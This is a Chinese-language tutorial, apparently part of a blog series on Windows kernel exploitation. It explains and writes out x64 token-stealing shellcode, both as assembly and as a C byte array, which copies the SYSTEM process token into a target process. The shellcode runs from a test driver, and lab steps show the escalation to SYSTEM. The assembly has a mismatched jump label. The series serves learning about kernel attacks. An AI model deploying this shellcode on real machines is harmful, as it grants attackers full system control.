

# 【第 10 話】寫 Shellcode 竄改 EPROCESS Token

## 文章大綱
在[【第 04 話】竄改 EPROCESS Token](/asset/第%2004%20話) 我們學會如何用 WinDbg 竄改 EPROCESS Token，並且在[【第 06 話】用 IOCTL 與驅動程式溝通](/asset/第%2006%20話)將竄改 EPROCESS Token 的行為寫程式自動化。

不過之前的程式是使用 [PsLookupProcessByProcessId](https://learn.microsoft.com/zh-tw/windows-hardware/drivers/ddi/ntifs/nf-ntifs-pslookupprocessbyprocessid) 取得 EPROCESS 位址然後竄改 Token，而這篇則是要寫 Shellcode 來做這件事，因為之後的文章會使用這個 Shellcode 實作攻擊腳本。

## Windows Kernel Shellcode 的背景知識
### KPCR
[KPCR](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/ntos/kpcr.htm)（Kernel Processor Control Region）是一個存 Processor 資訊的結構，它存在 `gs:[0]`，裡面有 ETHREAD 結構。ETHREAD 代表一個 Thread Object，其中包含 Thread 所屬 Process 的指標和指向 KTHREAD 的指標。

```
mov rdx, [gs:188h]    ; 從 KPCR 取得 ETHREAD 位址
mov r8, [rdx + b8h]   ; 從 ETHREAD 中取得 EPROCESS 位址
```

### ActiveProcessLinks
在[【第 04 話】用 WinDbg 竄改 EPROCESS Token](/asset/第%2004%20話) 我們認識了 EPROCESS 結構中的 Token，現在要介紹 EPROCESS 的 ActiveProcessLinks。

ActiveProcessLinks 的結構是個 [Doubly Linked List](https://en.wikipedia.org/wiki/Doubly_linked_list)，Flink 會指向下一個 EPROCESS 的 ActiveProcessLinks 的 Flink，Blink 則指向上一個 EPROCESS 的 ActiveProcessLinks 的 Flink。



在 WinDbg 輸入指令 `dt nt!_EPROCESS` 可以得知 ActiveProcessLinks 在 Windows 10 1709 的 Offset 是 `EPROCESS+0x2e8`。要了解 ActiveProcessLinks 的原因是 Shellcode 中會透過 ActiveProcessLinks 找到目標的 EPROCESS。

```
kd> dt nt!_EPROCESS
   +0x000 Pcb              : _KPROCESS
   +0x2d8 ProcessLock      : _EX_PUSH_LOCK
   ...
   +0x2e8 ActiveProcessLinks : _LIST_ENTRY
   ...
```


## 寫組語
有了以上背景知識應該就能理解接下來的組語（Assembly），步驟如下。
1. 從 KPCR 取得 ETHREAD 位址
2. 從 ETHREAD 取得 EPROCESS 位址
3. 從 EPROCESS 取得 ActiveProcessLinks 的 List Head 位址
4. 迴圈找到 System 的 EPROCESS 並取得 Token 的值
5. 迴圈找到目標 Process 的 EPROCESS
6. 把目標 Process 的 EPROCESS Token 竄改為 System 的 EPROCESS Token

```
mov rdx, [gs:188h]             ; 1. 從 KPCR 取得 ETHREAD 位址
mov r8, [rdx + b8h]            ; 2. 從 ETHREAD 取得 EPROCESS 位址
mov r9, [r8 + 2e8h]            ; 3. 從 EPROCESS 取得 ActiveProcessLinks 的 List Head 位址
mov rcx, [r9]                  ; 取得 List 中第一個 Process 的 ActiveProcessLinks
find_system_proc:              ; 4. 迴圈找到 system 的 EPROCESS 並取得 Token 的值
    mov rdx, [rcx - 8]         ; 取得在 ActiveProcessLinks (0x2e8) 前面的 UniqueProcessId (0x2e0)
    cmp rdx, 4                 ; 確認 UniqueProcessId 是不是 System Process (pid: 4)
    jz found_system            ; 如果是 System 就跳到 found_system
    mov rcx, [rcx]             ; 不是 System 就繼續從找下個 Process
    jmp find_system_proc
found_system:                  ; 5. 迴圈找到目標 Process 的 EPROCESS
    mov rax, [rcx + 70h]       ; 取得在 ActiveProcessLinks (0x2e8) 後面的 Token (0x358)
    and al, 0f0h               ; 清除 TOKEN 的 _EX_FAST_REF 結構後 4 bits 的 flags
find_current_process:
    mov rdx, [rcx-8]           ; 取得在 ActiveProcessLinks (0x2e8) 前面的 UniqueProcessId (0x2e0)
    cmp rdx, <Current Process> ; 確認 UniqueProcessId 是不是目標 Process
    jz found_cmd               ; 是目標 Process 就跳到 found_current_process
    mov rcx, [rcx]             ; 不是目標 Process 就繼續找下個 Process
    jmp find_current_process
found_current_process:
    mov [rcx+70h], rax         ; 6. 把目標 Process 的 EPROCESS Token 竄改為 System 的 EPROCESS Token
    ret
```


## 寫程式
Shellcode 的部分主要參考 [MSI Ambient Link Driver 1.0.0.8 Privilege Escalation](https://packetstormsecurity.com/files/159315/MSI-Ambient-Link-Driver-1.0.0.8-Privilege-Escalation.html)，我抽出用 Shellcode 竄改 Token 提權的部分並加了一些註解。完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/AbuseEprocessTokenShellcode)。

首先寫一個提權的 Shellcode，接下來跟[【第 06 話】IOCTL 與驅動程式溝通－實作竄改 EPROCESS TOKEN](/asset/第%2006%20話) 一樣從應用程式取得目標 pid，最後用 [ExAllocatePool](https://learn.microsoft.com/zh-tw/windows-hardware/drivers/ddi/wdm/nf-wdm-exallocatepool) 申請一塊記憶體存放 Shellcode 並把它當成函數指標執行。

```c
// 提權的 Shellcode
CHAR token_steal[] =
    "\x65\x48\x8B\x14\x25\x88\x01\x00\x00"    // mov rdx, [gs:188h]     ; 1. 從 KPCR 取得 ETHREAD 位址
    "\x4C\x8B\x82\xB8\x00\x00\x00"            // mov r8, [rdx + b8h]    ; 2. 從 ETHREAD 取得 EPROCESS 位址
    "\x4D\x8B\x88\xe8\x02\x00\x00"            // mov r9, [r8 + 2e8h]    ; 3. 從 EPROCESS 取得 ActiveProcessLinks 的 List Head 位址
    "\x49\x8B\x09"        // mov rcx, [r9]          ; 取得 List 中第一個 Process 的 ActiveProcessLinks
    // find_system_proc:    ; 4. 迴圈找到 system 的 EPROCESS 並取得 Token 的值
    "\x48\x8B\x51\xF8"    // mov rdx, [rcx - 8]    ; 取得在 ActiveProcessLinks (0x2e8) 前面的 UniqueProcessId (0x2e0)
    "\x48\x83\xFA\x04"    // cmp rdx, 4            ; 確認 UniqueProcessId 是不是 System Process (pid: 4)
    "\x74\x05"            // jz found_system       ; 如果是 System 就跳到 found_system
    "\x48\x8B\x09"        // mov rcx, [rcx]        ; 不是 System 就繼續從找下個 Process
    "\xEB\xF1"            // jmp find_system_proc
    // found_system:        ; 5. 迴圈找到目標 Process 的 EPROCESS
    "\x48\x8B\x41\x70"    // mov rax, [rcx + 70h]  ; 取得在 ActiveProcessLinks (0x2e8) 後面的 Token (0x358)
    "\x24\xF0"            // and al, 0f0h          ; 清除 TOKEN 的 _EX_FAST_REF 結構後 4 bits 的 flags
    // find_current_process:
    "\x48\x8B\x51\xF8"    // mov rdx, [rcx-8]      ; 取得在 ActiveProcessLinks (0x2e8) 前面的 UniqueProcessId (0x2e0)
    "\x48\x81\xFA\x99\x99\x00\x00"    // cmp rdx, <Current Process>    ; 確認 UniqueProcessId 是不是目標 Process
    "\x74\x05"         // jz found_cmd      ; 是目標 Process 就跳到 found_current_process
    "\x48\x8B\x09"     // mov rcx, [rcx]    ; 不是目標 Process 就繼續找下個 Process
    "\xEB\xEE"         // jmp find_current_process
    // found_current_process:
    "\x48\x89\x41\x70" // mov [rcx+70h], rax    ; 6. 把目標 Process 的 EPROCESS Token 竄改為 System 的 EPROCESS Token
    "\xc3";            // ret

// 將目標 pid 寫入 Shellcode 中
token_steal[54] = (CHAR)processId;
token_steal[55] = (CHAR)(processId >> 8);

// 執行 Shellcode
PVOID shellcode = ExAllocatePool(NonPagedPool, sizeof(token_steal));
if (shellcode)
{
    memcpy(shellcode, token_steal, sizeof(token_steal));
    ((VOID(*)())shellcode)();
}
break;
```

## 測試
開啟 VM，記得要在本機開啟 vmmon64.exe，並在 boot options 按 F8 選擇 `Disable Driver Signature Enforcement`。

1. 開啟一個 cmd，再開啟 [Sysinternals](https://learn.microsoft.com/en-us/sysinternals/) 中的 procexp64.exe 確認 cmd 的 pid
2. 載入 [AbuseEprocessTokenShellcode.sys](https://github.com/zeze-zeze/2023iThome/blob/master/AbuseEprocessTokenShellcode/bin/AbuseEprocessTokenShellcode.sys)
3. 執行 [AbuseEprocessToken.exe](https://github.com/zeze-zeze/2023iThome/blob/master/AbuseEprocessToken/bin/AbuseEprocessToken.exe)，並輸入 cmd 的 pid，成功執行後輸入 `whoami` 會發現權限已經變成 `system` 了


## 參考資料
- [MSI Ambient Link Driver 1.0.0.8 Privilege Escalation](https://packetstormsecurity.com/files/159315/MSI-Ambient-Link-Driver-1.0.0.8-Privilege-Escalation.html)
- [Kernel Exploitation: Advanced](https://resources.infosecinstitute.com/topics/hacking/kernel-exploitation-part-2/)
- [第七天 Thread(執行緒)--下](https://ithelp.ithome.com.tw/articles/10203786)